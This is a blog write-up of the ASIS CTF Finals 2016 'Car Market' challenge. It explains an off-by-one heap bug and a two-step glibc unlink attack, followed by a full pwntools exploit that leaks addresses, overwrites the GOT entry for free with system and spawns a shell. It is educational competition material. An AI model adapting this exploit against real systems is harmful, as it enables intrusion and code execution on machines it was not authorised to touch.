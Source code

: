 ```yaml
---
layout: post
alias: "/blog/2016/09/12/asis-ctf-finals-2016-car-market/"
date: "2016-09-12T02:26:51+09:00"
tags: [ "ctf", "writeup", "asis-ctf", "pwn", "heap", "unlink-attack", "glibc" ]
---
```


# ASIS CTF Finals 2016: Car Market

Good problem.

## solution

A problem of heap, and the `malloc`/`free` are the ones of latest glibc.
Structures are below. There is a off-by-one, which the `name` of `customer_t` leaks the null byte and rewrites the least byte of `comment` with null.

``` c
car_t **g_cars = malloc(sizeof(car_t *) * 256);  // 0x6020c8
struct car_t {
    char name[16];  // 0x0
    int price;  // 0x10
    customer_t *customer;  // 0x18
}
struct customer_t {
    char firstname[32];  // 0x0
    char name[32];  // 0x20
    char *comment; // 0x40
}
```

There are `g_cars`, list of malloced pointes, so we can bypass the check `q->fd->bk == q` and `q->bk->fd == q` and do unlink attack.
See <https://github.com/shellphish/how2heap/blob/master/unsafe_unlink.c>.

However `x->customer` (used as `x->bk`) of a car pointer `x` is not our controll, so I did with $2$ steps.
At first, let `x->customer->comment` be a pointer of another car `y` (because `y` is on the list `g_cars`), `y->price` (`y->fd`) be the `g_cars + k` where `(g_cars + k)->bk == y`, and `*(y->customer + 0x10)` (`y->bk->fd`) be `y`.
Then free the `x` (and `x->customer`).
This causes use after free, so we can make a customer which is listed on the car list.
Secondly, do the similar thing and write the address the car list on the car list itself.
Now we can read/write arbitrary address, and get the flag.


## implementation

``` python
#!/usr/bin/env python2
import time
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
parser.add_argument('host', nargs='?', default='car-market.asis-ctf.ir')
parser.add_argument('port', nargs='?', default=31337, type=int)
args = parser.parse_args()
context.log_level = 'debug'

elf = ELF('./car_market')
libc = ELF('./libc.so.6') # ubuntu 16.04
p = remote(args.host, args.port)

def prompt(*xs):
    p.recvuntil('>\n')
    for x in xs:
        if isinstance(x, int):
            x = str(x)
        p.sendline(x)

# 1: list
# 2: add Car
# 3: remove car
# 4: select car
# 5: exit
list_cars = lambda: prompt(1)
add_car = lambda model, price: prompt(2, model, price)
remove_car = lambda index: prompt(3, index)
select_car = lambda index: prompt(4, index)
exit = lambda: prompt(5)

# 1: info
# 2: set model
# 3: set price
# 4: add customer
# 5: exit
info_car = lambda: prompt(1)
set_model = lambda s: prompt(2, s)
set_price = lambda s: prompt(3, s)
add_customer = lambda: prompt(4)
exit_car = lambda: prompt(5)

# 1: set name
# 2: set firstname
# 3: set comment
# 4: exit
set_name = lambda s: prompt(1, s)
set_firstname = lambda s: prompt(2, s)
set_comment = lambda s: prompt(3, s)
exit_customer = lambda: prompt(4)

for i in range(20):
    add_car(('car %d ' % i).ljust(15, 'X'), u32('YYYY'))
    select_car(i)
    if i != 11:
        add_customer()
        set_firstname(('customer %d' % i).ljust(0x20, 'A'))
        set_name('B' * 0x20)
        set_comment('C' * 0x48)
        exit_customer()
    exit_car()

# leak heap address
select_car(0)
add_customer()
set_firstname(('customer %d' % 0).ljust(0x20, 'A'))
set_name('B' * 0x20)
set_comment('C' * 0x48)
exit_customer()
info_car()
p.recvuntil('Name : ')
name = p.recvline(keepends=False)
heap_base = u64(name[0x20 :].ljust(8, '\0')) - 0x8a0
log.info('heap base: %#x', heap_base)
exit_car()
pointer_vector = lambda i: heap_base+0x10+i*8

# make fake chunks on a car
bk = 0x18
select_car(9)
set_price(pointer_vector(9) - bk)
add_customer()
set_firstname('A' * 16 + p64(heap_base + 0xf70))
set_comment(p64(0x80) + p64(0xc0))
exit_customer()
exit_car()

# first unlink
select_car(10)
add_customer()
set_comment('C')
set_name('B' * 0x20)
exit_customer()
add_customer() # free
exit_customer()
exit_car()

# make a customer who is listed on the pointer_vector, and make a fake chunk on it
fd = 0x10
bk = 0x18
select_car(11)
add_customer()
set_name('B' * 16 + p64(pointer_vector(9) - bk) + p64(pointer_vector(9) - fd))
exit_customer()
exit_car()

# make an another fake chunk
select_car(12)
add_customer()
set_comment('C' * 48 + p64(0x250) + p64(0x90))
exit_customer()
exit_car()

# second unlink
select_car(13)
add_customer()
set_comment('C')
set_name('B' * 0x20)
exit_customer()
add_customer() # free
exit_customer()
exit_car()

# read libc base
select_car(9)
set_model(p64(elf.got['setvbuf']))
exit_car()
select_car(6)
info_car()
p.recvuntil('Model  : ')
libc_base = u64(p.recvuntil(' \n')[: -2 ].ljust(8, '\0')) - libc.symbols['setvbuf']
log.info('libc base: %#x', libc_base)
exit_car()

# got overwrite
select_car(9)
set_model(p64(elf.got['free']))
exit_car()
select_car(6)
set_model(p64(libc_base + libc.symbols['system']).rstrip('\0'))
exit_car()

# set /bin/sh
select_car(9)
set_model('/bin/sh\0')
exit_car()

# run
remove_car(9)

time.sleep(1)
p.sendline('id')
p.interactive()
```
